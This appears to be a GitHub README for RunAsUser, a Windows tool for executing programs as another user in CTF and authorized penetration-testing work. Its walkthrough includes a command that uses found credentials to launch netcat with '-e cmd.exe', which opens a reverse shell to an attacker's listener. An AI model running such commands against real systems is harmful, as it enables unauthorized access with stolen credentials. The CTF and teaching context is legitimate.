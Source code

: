# RunAsUser

**Advisory**
All the binaries/scripts/code of RunAsUser should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *

**Binary already compiled in Releases if you want to use that.**
* * *

**Whats the purpose?**

RunAsUser was designed to make it easy to execute programs on Windows as another user. In CTF exercises you may come across credentials for another user. Unlike Linux there isn't the functionality to "su" to switch user.

There are ways to already do this with PowerShell. However I have found that in some CTF exercises you may be presented with limited or no PowerShell functionality. CMD also has the ability to execute programs as another user but again I have experienced problems trying to use that.

I have used this in a few boxes now and found it very useful. In fact, I made this application because I faced a very specific issue and other solutions wouldn't work.

It is a quick and dirty tool but does the job. I may come back to it and update it at some point.

**How to run**

So an example machine you can use this on is - HTB JSON.

Found the credentials for the admin user. I had issues trying to run a PowerShell terminal from what I remember, so I used this. I know I could have done this particular box lots of other ways but on other machines you may not be so fortunate and it was a good excuse to use this tool again.

First I uploaded RunAsUser.exe and then executed the below command.

```
RunAsUser.exe -u superadmin -p funnyhtb -f c:\users\public\nc.exe -a '10.10.14.12 9001 -e cmd.exe'
```

This command then executed `nc.exe` as the `superadmin` user and it connected back to my listener.

To view the help, simply run the tool with either `-h` or `--help`.

You may also just run the tool and you will be prompted at each step for the arguments you wish to supply.

**Edit**

I have updated this README to show an example of where "runas" does not work and "RunAsUser" does work. I created this tool for this exact reason. I was on a machine and had credentials and my initial thought was runas, however this would not work and kept skipping over the password prompt. I am aware there are other solutions to do the same thing, but I enjoyed making this quick tool and thought I would share it.

![](RunAsUser.gif)

